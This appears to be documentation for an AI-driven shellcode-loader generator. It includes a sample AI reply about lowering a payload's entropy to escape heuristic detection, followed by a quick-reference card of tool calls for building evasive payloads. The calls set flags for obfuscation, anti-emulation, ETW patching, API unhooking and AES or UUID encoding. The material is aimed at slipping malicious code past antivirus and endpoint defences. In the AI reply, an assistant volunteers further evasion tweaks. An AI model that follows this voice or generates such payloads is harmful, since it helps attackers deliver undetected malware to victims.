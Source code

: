 ```

New entropy: 6.12 (MEDIUM) - Reduced by 1.73!

Entropy reduced from 7.85 → 6.12. This should help with heuristic
detection. If still too high, consider:
- Using XOR instead of AES encoding (lighter encryption)
- Disabling some obfuscation features
- Using a different shellcode generator

Would you like me to try any of these adjustments?
```

---

## Quick Reference Card

### Essential Tool Calls

```python
# List all loaders
list_loaders(category="all")

# List specific category
list_loaders(category="stealth")

# List encoders
list_encoders()

# Analyze binary
analyze_binary(file_path="output/payload.exe")

# Basic payload
generate_payload(
    input_file="input.exe",
    output_file="output.exe",
    loader=16,
    encoding="uuid"
)

# Advanced evasive payload
generate_payload(
    input_file="input.exe",
    output_file="output.exe",
    loader=37,
    encoding="aes",
    compiler="akira",
    obfuscate=True,
    anti_emulation=True,
    etw=True,
    api_unhooking=True,
    sleep=True,
    entropy=2
)

# Validate configuration
validate_options(
    loader=51,
    encoding="aes",
    compiler="akira"
)
```
